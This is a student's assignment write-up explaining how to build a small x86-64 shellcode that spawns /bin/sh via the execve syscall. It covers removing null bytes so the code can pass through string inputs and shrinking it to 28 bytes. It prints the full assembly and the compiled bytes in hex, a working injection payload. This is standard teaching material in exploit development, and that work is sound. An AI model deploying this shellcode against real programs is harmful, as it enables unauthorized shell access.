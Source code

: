 # Assignment 1
Assembly review - The goal is create shell code that makes a syscall to /bin/sh with two side goals of having no zero bytes in the compiled code and making the compiled code as small as possible. 

## Basic Code
We start by adding the prologue and epilogue, which properly sets up and takes down the program when it is complete. To make a proper syscall to the OS we need to set RAX with the sycall number, in our case 59 or 0x3b. We also have to set the arguments for the syscall, for execv there are 3 but the only one we care about is the first argument. The first argument is a pointer to a string that has the location of the program to replace the current program with, /bin/sh. After converting the string to hex, we push it to the stack in reverse because of little endian. We then XOR the RSI and RDX registers with themselves to zero them because those are for the 2nd and 3rd arguments. We then can make the syscall to OS.

## Removing zeros
One of the side goals was to remove all zero bytes from the compiled code so that if we need to pass the code in as a string to another program, it wont cause issues for null terminated strings. There was two problem areas, moving the string to the stack, and filling the RAX register. Since RAX is 8 bytes total using 'mov $0x3b, %rdx' will produce many zero bytes when compiling, because it needs to convert the immediate value into a 8 byte version. The way we get around this is by moving the single byte $0x3b into the lower half of the AX register, which is also 1 byte. And to deal with the string zero byte, we append 0xff to the front of the string the shift the register 8 times to remove the appended 0xff and add the null bytes to the end of the string without having any zero bytes in the compiled code.

## Making code smaller
I tried alot of things to try and reduce the size of the compiled code. I tried crafting the string in a way that I could shift it less, but that didn't change the size of the code because the shift instruction will be the same size for all shifts less than 255(a byte). I tried finding a more efficient way to zero a register instead of XOR, but I didn't find anything. The instruction that takes the most space by far is moving the string into RDI, but the instruction itself is only 2 bytes and the bulk of it is the string itself. I tried finding a more compact way to get to that string by multiplying or shifting the register, but it was quite complex and didn't bring any results. So the only thing I did actually do to reduce the size was remove the prologue and epilogue, which is bad practice but did shrink my code down to 28 bytes total.
~~~
# Jacob Yoder
# 2/2/2024
# A simple shellcode to make a syscall with execv to /bin/sh. 
.text
.global _start
_start:

        # Obviously its good practice to include the prologue and epilogue.
        # BUT, I am going for smallest compiled size without null characters.

        #push %rbp
        #mov %rsp, %rbp

        mov $0x68732F6E69622FFF, %rdi   # fills rdi with "0xFF /bin/sh"
        shr $0x8, %rdi                  # shifts rdi, "/bin/sh\0"
        push %rdi                       # push string to stack

        mov $0x3b, %al                  # fill rax with execv syscall
        mov %rsp, %rdi                  # arg 1 - pointer to string of dest
        xor %rsi, %rsi                  # arg 2 - args or NULL in our case
        xor %rdx, %rdx                  # arg 3 - eviron pointer or NULL in our case

        syscall

        #leave
        #ret
~~~

My compiled shellcode is 28 bytes long:

48 bf ff 2f 62 69 6e 2f 
73 68 48 c1 ef 08 57 b0 
3b 48 89 e7 48 31 f6 48 
31 d2 0f 05
